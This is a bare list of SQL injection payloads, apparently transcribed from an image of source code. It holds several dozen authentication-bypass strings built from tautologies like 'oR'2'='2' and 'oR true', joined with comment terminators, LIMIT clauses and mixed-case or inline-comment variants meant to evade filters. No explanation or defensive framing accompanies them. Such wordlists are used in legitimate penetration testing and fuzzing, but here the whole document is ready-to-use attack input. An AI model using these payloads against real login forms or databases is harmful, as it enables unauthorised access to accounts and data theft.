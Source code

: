 ```
"oR(2)-- 2
"oR(2)#
"oR(2)/*
"oR(2)oR"
"oR 2-- 2
"oR 2#
"oR 2/*
"oR 2 oR"
"oR/**/2-- 2
"oR/**/2#
"oR/**/2/*
"oR/**/2/**/oR"
'oR'2'='2
'oR'2'='2'oR'
'oR'2'='2'-- 2
'oR'2'='2'#
'oR'2'='2'/*
'oR 2=2-- 2
'oR 2=2#
'oR 2=2/*
'oR 2=2 oR'
'oR/**/2=2-- 2
'oR/**/2=2#
'oR/**/2=2/*
'oR/**/2=2/**/oR'
'oR(2)=2-- 2
'oR(2)=2#
'oR(2)=2/*
'oR(2)=(2)oR'
'oR'2'='2' LimIT 1-- 2
'oR'2'='2' LimIT 1#
'oR'2'='2' LimIT 1/*
'oR(2)=(2)LimIT(1)-- 2
'oR(2)=(2)LimIT(1)#
'oR(2)=(2)LimIT(1)/*
"oR"2"="2
"oR"2"="2"oR"
"oR"2"="2"-- 2
"oR"2"="2"#
"oR"2"="2"/*
"oR 2=2-- 2
"oR 2=2#
"oR 2=2/*
"oR 2=2 oR"
"oR/**/2=2-- 2
"oR/**/2=2#
"oR/**/2=2/*
"oR/**/2=2/**/oR"
"oR(2)=2-- 2
"oR(2)=2#
"oR(2)=2/*
"oR(2)=(2)oR"
"oR"2"="2" LimIT 1-- 2
"oR"2"="2" LimIT 1#
"oR"2"="2" LimIT 1/*
"oR(2)=(2)LimIT(1)-- 2
"oR(2)=(2)LimIT(1)#
"oR(2)=(2)LimIT(1)/*
'oR true-- 2
'oR true#
'oR true/*
'oR true oR'
'oR(true)-- 2
```